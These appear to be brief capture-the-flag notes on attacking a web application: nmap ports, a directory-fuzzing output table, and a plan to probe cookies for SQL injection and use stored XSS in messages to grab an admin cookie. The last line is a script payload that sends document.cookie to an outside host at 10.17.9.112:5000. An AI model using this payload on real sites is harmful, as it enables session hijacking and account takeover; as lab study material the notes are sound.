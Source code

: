 start with nmap

80
22
32768

***

http 80

fuzz :

```
admin                   [Status: 403, Size: 392, Words: 75, Lines: 22]
Admin                   [Status: 403, Size: 392, Words: 75, Lines: 22]
ADMIN                   [Status: 403, Size: 392, Words: 75, Lines: 22]
images                  [Status: 301, Size: 179, Words: 7, Lines: 11]
login                   [Status: 200, Size: 857, Words: 200, Lines: 36]
Login                   [Status: 200, Size: 857, Words: 200, Lines: 36]
messages                [Status: 302, Size: 28, Words: 4, Lines: 1]
new                     [Status: 302, Size: 28, Words: 4, Lines: 1]
robots.txt              [Status: 200, Size: 31, Words: 3, Lines: 3]
signup                  [Status: 200, Size: 667, Words: 159, Lines: 31]
stylesheets             [Status: 301, Size: 189, Words: 7, Lines: 11]

```

/admin can't access by us.

test cookies for sql injection

we can send message to admin.

create two account. try to send message from 1 to 2 and try to get xss. if success try to get admin cookies.


<script type=“text/javascript”>document.location=“http://10.17.9.112:5000/?c=“+document.cookie;</script>